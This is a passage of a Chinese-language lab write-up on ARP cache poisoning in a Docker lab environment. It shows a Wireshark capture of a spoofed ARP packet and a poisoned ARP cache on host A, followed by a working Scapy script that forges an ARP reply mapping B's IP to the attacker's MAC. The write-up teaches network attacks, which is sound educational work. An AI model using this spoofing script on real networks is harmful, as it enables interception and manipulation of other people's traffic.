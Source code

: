 wireshark抓包发现确有一个张冠李戴的arp数据报试图瞒天过海

![image-20220505104241518](ARPCachePoisoning/image-20220505104241518.png)

连接到机器A上，查看arp，发现已然中毒。

```bash
docker exec -it ba /bin/bash
root@bab1b4aa6425:/# arp -n
```

![image-20220505105132969](ARPCachePoisoning/image-20220505105132969.png)

### 任务1.B（ARP回复）

> - 任务1.B（使用ARP回复）。在主机M上，构建一个ARP回复数据包，以将B的IP地址映射到M的MAC地址。将数据包发送到A，并检查攻击是否成功。在以下两种情况下尝试攻击，并报告攻击结果：

我们在1a程序的基础上只需将A.op 改为 2 即可。

```bash
#!/usr/bin/env python3
from scapy.all import *

# Who can it be used? Write first!
A_ip = "10.9.0.5"
A_mac = "02:42:0a:09:00:05"
B_ip = "10.9.0.6"
B_mac = "02:42:0a:09:00:06"
M_ip = "10.9.0.105"
M_mac = "02:42:0a:09:00:69"

E = Ether(src=M_mac, dst=A_mac)
A = ARP(hwsrc=M_mac, psrc=B_ip,
        hwdst=A_mac, pdst=A_ip)
A.op = 2 	# 1 for ARP request; 2 for ARP reply
pkt = E/A
pkt.show()
sendp(pkt)
```
